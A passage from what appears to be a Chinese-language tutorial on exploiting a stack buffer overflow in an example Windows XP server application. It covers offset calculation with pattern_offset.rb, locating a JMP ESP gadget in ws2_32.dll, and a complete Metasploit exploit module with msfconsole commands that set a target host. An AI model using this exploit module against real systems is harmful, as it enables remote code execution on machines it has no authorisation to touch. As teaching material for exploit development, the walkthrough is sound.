 2. 发送给目标程序
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562742623/pwn/%E5%9B%BE%E7%89%877.png)

3. 计算偏移量 **pattern_offset.rb**
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562742685/pwn/%E5%9B%BE%E7%89%878.png)

4. 确定payload结构
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562742686/pwn/%E5%9B%BE%E7%89%879.png)

## 寻找jmp esp跳板
1. OD附加进程看一下服务器加载了哪些模块
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562742794/pwn/%E5%9B%BE%E7%89%8710.png)
2. 查找JMP ESP指令的地址
在这里选择了ws2_32.dll作为对象，通过Metasploit的msfbinscan进行搜索
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1562742793/pwn/%E5%9B%BE%E7%89%8711.png)

## 自动化攻击
```ruby=
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  Rank = NormalRanking
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
  super(update_info(info,
    'Name' 		=> 'Stack Based Buffer Overflow Example',
    'Description' 	=> %q{
      			    Stack Based Overflow Example Application Exploitation Module
    			   },
    'Platform' 		=> 'Windows',
    'Author' 		=> 'yanhan',

    'Payload' 		=>
      			   {
        		   'space' => 400,
                           'BadChars' => "\x00\xff"
                      	   },
    'Targets'  		=>
      			   [
        		     [
			      'Windows XP SP3',
			      {'Ret' => 0x71a22b53, 'Offset' => 520}
			     ]
      			   ],
     'DisclosureDate' => '2019-05-25'
  ))
  end

  def exploit
    connect
    buf = make_nops(target['Offset'])
    buf = buf + [target['Ret']].pack('V') + make_nops(20) + payload.encoded
    sock.put(buf)
    handler
    disconnect
   end
end
```
```
msf5 > use exploit/windows/yanhan/bof_attack
msf5 exploit(windows/yanhan/bof_attack) > set rhosts 192.168.31.114
```